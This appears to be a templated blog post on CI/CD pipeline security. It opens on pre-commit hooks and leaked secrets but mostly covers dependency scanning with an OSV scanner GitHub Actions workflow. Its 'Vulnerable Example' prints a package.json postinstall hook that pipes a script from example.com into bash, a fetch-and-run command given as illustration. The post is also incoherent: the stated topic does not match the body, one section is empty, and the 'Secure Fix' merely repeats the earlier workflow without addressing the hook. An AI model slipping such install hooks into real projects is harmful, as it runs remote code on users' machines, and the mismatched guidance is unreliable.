

Pre-commit hooks stop obvious mistakes early.

In real projects, this is not a theory topic. It affects pull requests, CI jobs, secrets, artifacts, deployments, and sometimes production directly.

<!-- truncate -->

## Why This Matters

Nowadays most deployments are automated using CI/CD pipelines. If pipeline security is weak, attackers can use the same automation that developers use.

For this topic, the practical risk is simple: a secret enters Git history and needs rotation.

## What Usually Goes Wrong

Common mistakes I have seen in real projects:

- Lock files are not reviewed.
- Transitive dependency risk is ignored.
- Dependabot PRs are merged without testing.
- Malicious package risk is not considered.

## Basic Flow



## Practical GitHub Actions Example

```yaml
name: sca-osv
on: [pull_request]
permissions:
  contents: read
jobs:
  dependency-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: google/osv-scanner-action@v2
        with:
          scan-args: --recursive .
```

## Vulnerable Example

```json
{
  "scripts": {
    "postinstall": "curl https://example.com/run.sh | bash"
  }
}
```

This is risky because it trusts too much by default. In real teams this usually becomes a problem during a rushed release or when a small PR is approved without checking the pipeline impact.

## Secure Fix

```yaml
name: sca-osv
on: [pull_request]
permissions:
  contents: read
jobs:
  dependency-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: google/osv-scanner-action@v2
        with:
          scan-args: --recursive .
```

## Example PR Output

```text
Dependency scan failed
Finding: critical CVE in transitive package
Status: PR blocked
Next step: upgrade package or add approved exception
```

## Practical Recommendations

- Review lock file changes.
- Block critical exploitable dependency issues.
- Make the check required only after tuning.
- Show result in the pull request.
- Track exceptions with owner, reason, and expiry.

Security should help developers fix issues early. It should not become random CI noise.
